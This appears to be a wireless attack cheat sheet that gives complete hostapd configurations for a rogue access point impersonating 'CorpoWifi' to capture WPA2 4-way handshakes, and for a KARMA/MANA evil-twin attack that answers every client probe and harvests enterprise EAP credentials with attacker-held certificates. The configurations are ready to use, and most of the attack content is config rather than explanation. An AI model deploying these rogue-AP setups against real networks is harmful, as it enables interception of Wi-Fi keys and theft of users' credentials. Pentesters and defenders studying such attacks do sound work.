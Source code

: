 
#### WPA2 App Less Attack
You will need to have a probing client within the vicinity or range, create a fake access point, wait the client for connect and capture the 4-way handshake.

```
hostapd wpa-psk.conf
```

wpa1-psk.conf
```
interface=wlan1
driver=nl80211
ssid=CorpoWifi
bssid=00:1C:10:00:00:00
wpa=2
wpa_passphrase=wedontcare
wpa_key_mgmt=WPA-PSK
rsn_pairwise=TKIP
channel=1
```

wpa2-psk.conf
```
interface=wlan1
driver=nl80211
ssid=CorpoWifi
bssid=00:1C:10:00:00:00
wpa=2
wpa_passphrase=wedontcare
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1
```

#### KARMA Attack
Attacker will look for client probe requests and immediately change the SSID it is broadcasting to match the probe request of the client. Responding to everyone.  

karma.conf
```
interface=wlan1
ssid=nothing
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=/root/certs/hostapd.eap_user
ca_cert=/root/certs/server.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
enable_mana=1
```
